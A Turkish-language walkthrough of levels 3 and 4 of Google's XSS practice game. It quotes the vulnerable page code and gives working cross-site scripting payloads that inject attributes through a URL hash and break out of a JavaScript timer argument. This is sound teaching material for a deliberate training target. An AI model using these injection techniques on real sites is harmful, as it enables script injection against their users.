```

  </head>
  <body id="level3">
    <div id="header">
      <img id="logo" src="/static/logos/level3.png">
      <span>Take a tour of our cloud data center.</a>
    </div>

    <div class="tab" id="tab1" onclick="chooseTab('1')">Image 1</div>
    <div class="tab" id="tab2" onclick="chooseTab('2')">Image 2</div>
    <div class="tab" id="tab3" onclick="chooseTab('3')">Image 3</div>

    <div id="tabContent"> </div>
  </body>
</html>
```

![Untitled](0x08%20614d7d291ebe485c8a749b0367dcb928/Untitled%2036.png)

Dolayısıyla location hash kısmına bu şekilde bir saldırı kodu yazarak XSS elde edebiliriz. Burada bu kodun çalışma sebebi, kaynak kodda da görebileceğiniz üzere ilgili satırdaki kontrol eksikliğinden dolayı HTML’i manipüle edebiliyoruz.

```
html += "<img src='/static/level3/cloud" + num + ".jpg' />";
```

```
https://xss-game.appspot.com/level3/frame#' onmouseover='alert(1)
```

## **Level-4**

Sıradaki XSS oyunu bu şekildedir.

![Untitled](0x08%20614d7d291ebe485c8a749b0367dcb928/Untitled%2037.png)

Buradaki kodu incelediğimizde JavaScript ile bu kısımda startTimer fonksiyonundan bağımsız bir şekilde XSS meydana gelebilir.

```
<body id="level4">
    <img src="/static/logos/level4.png" />
    <br>
    <img src="/static/loading.gif" onload="startTimer('{{ timer }}');" />
    <br>
    <div id="message">Your timer will execute in {{ timer }} seconds.</div>
 </body>
```

Oluşturduğumuz payload kodunu ilgili satırda şu yapıya getirdiğimizde XSS’i elde edebiliriz.

```
<img src="/static/loading.gif" onload="startTimer(''-alert(1)-'');" />
```

